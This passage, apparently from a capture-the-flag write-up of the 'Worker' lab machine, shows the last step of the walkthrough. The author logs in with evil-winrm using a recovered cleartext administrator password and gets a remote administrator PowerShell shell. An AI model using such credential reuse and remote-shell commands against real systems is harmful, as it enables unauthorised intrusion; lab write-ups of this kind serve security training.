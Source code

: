 <img src="/images/worker/pipeline.png">

Try these creds with evil-winrm again and we have a root.

{%highlight text%}
evil-winrm -u administrator -p Pirates32! -i 10.10.10.203

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
worker\administrator
{%endhighlight%}